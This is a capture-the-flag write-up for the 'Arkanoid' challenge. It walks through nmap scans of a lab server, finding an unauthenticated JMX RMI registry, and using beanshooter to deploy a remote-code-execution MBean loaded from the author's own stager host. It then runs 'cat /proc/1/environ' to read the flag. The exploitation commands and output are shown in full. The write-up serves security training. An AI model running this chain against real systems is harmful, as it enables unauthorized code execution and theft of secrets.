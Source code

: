 # Arkanoid (5 points)

Ahoy, officer,

a new server with a video game is to be placed in the ship's relaxation center . Your task is to check whether the
server does not contain any vulnerabilities.

May you have fair winds and following seas!

The game server has domain name `arkanoid.cns-jv.tcc`.

## Hints

* Use VPN to get access the server.
* The Arkanoid appliance restarts every hour.

## Solution

Let's start with checking what listens on the server.

```console
$ nmap arkanoid.cns-jv.tcc -p-
PORT      STATE SERVICE
8000/tcp  open  http-alt
43547/tcp open  unknown
60001/tcp open  unknown
60002/tcp open  unknown
```

That's helpful, but perhaps it would be better to try to detect what types of services actually listen on those ports.

```console
$ nmap -sV arkanoid.cns-jv.tcc -p 8000,43547,60001,60002
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 22:20 CEST
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.0080s latency).

PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
43547/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
60002/tcp open  java-rmi   Java RMI
```

If we scan even deeper, we find JMX RMI registry running on port 60001.

```console
$ nmap -sV -A arkanoid.cns-jv.tcc -p 60001
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 22:36 CEST
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.0081s latency).

PORT      STATE SERVICE  VERSION
60001/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
```

The search for some tools to attack JMX reveals [beanshooter]. After cloning and a maven build (described in the
"Installation" section of its README file) it's ready to use.

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar enum arkanoid.cns-jv.tcc 60001
```

![beanshooter showing unauthorized access](unauthorized.png)

The tool reports the possibility of unauthorized access, so let's try deploying some MBean (`tonka` to be precise).

_Note: `10.200.0.20` in the command below was the address of my PC. You need to use yours when running it, so that the
bean is downloaded from the correct place._

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka deploy arkanoid.cns-jv.tcc 60001 --stager-url http://10.200.0.20:8000
```

![beanshooter deploying tonka bean](tonka-deployed.png)

The deployment has been successful which grants us access to the server. Now we can either run interactive shell and
explore (`beanshooter tonka shell`) or (if we already know what we're after) we can just run `beanshooter tonka exec` to
execute a particular command.

In our case, the FLAG can be found in the environment of the process with PID = `1`.

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka exec arkanoid.cns-jv.tcc 60001 "cat /proc/1/environ"
[+] Invoking the executeCommand method with arguments: [cat, /proc/1/environ]
[+] The call was successful
[+]
[+] Server response:
HOSTNAME=47181c51972dHOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binJAVA_HOME=/opt/jdk1.8.0_144PWD=/optFLAG=FLAG{sEYj-80fd-EtkR-0fHv}
```

Finally, let's just clean up after ourselves, so that we don't spoil it for other players. :angel:

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka undeploy arkanoid.cns-jv.tcc 60001
[+] Removing MBean with ObjectName MLetTonkaBean:name=TonkaBean,id=1 from the MBeanServer.
[+] MBean was successfully removed.
```

[beanshooter]: https://github.com/qtc-de/beanshooter
